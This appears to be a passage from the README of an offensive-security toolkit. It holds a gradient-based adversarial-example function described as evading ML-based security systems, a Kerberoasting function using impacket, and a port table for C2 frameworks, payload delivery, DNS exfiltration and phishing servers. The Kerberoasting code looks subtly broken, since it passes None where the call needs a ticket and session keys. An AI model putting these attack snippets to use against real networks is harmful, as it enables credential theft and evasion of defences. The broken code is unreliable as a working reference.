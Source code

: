 ```python
```

### AI-Powered Security Testing
```python
# Adversarial ML example
import tensorflow as tf
import numpy as np

def generate_adversarial_example(model, input_data, target_class, epsilon=0.1):
    """Generate adversarial examples to evade ML-based security systems"""
    with tf.GradientTape() as tape:
        tape.watch(input_data)
        prediction = model(input_data)
        loss = tf.keras.losses.categorical_crossentropy(target_class, prediction)
    
    gradient = tape.gradient(loss, input_data)
    adversarial_data = input_data + epsilon * tf.sign(gradient)
    return adversarial_data
```

### Active Directory Attack Simulation
```python
# Kerberoasting example
from impacket.krb5.kerberosv5 import getKerberosTGS
from impacket.krb5.types import Principal

def kerberoast_attack(domain, username, password, target_spn):
    """Perform Kerberoasting attack against target SPN"""
    try:
        tgs, cipher, oldSessionKey, sessionKey = getKerberosTGS(
            Principal(target_spn), domain, None, None
        )
        return tgs, cipher
    except Exception as e:
        print(f"Kerberoasting failed: {e}")
        return None, None
```

## Port Mappings

| Port | Service | Description |
|------|---------|-------------|
| 8888 | JupyterLab | ML/AI Offensive Security Research |
| 5678 | n8n | Workflow Automation |
| 8080 | Shellngn Pro | Web-based C2 Interface |
| 4444-4445 | Metasploit | Handler ports |
| 5555 | Empire | RESTful API |
| 1337 | Custom C2 | Custom command & control |
| 8000/8443 | HTTP/HTTPS | Payload delivery servers |
| 53 | DNS | DNS exfiltration channel |
| 80/443 | HTTP/HTTPS | Web C2 channels |
| 3333 | Gophish | Phishing campaign management |
| 7443 | Covenant | C2 framework interface |
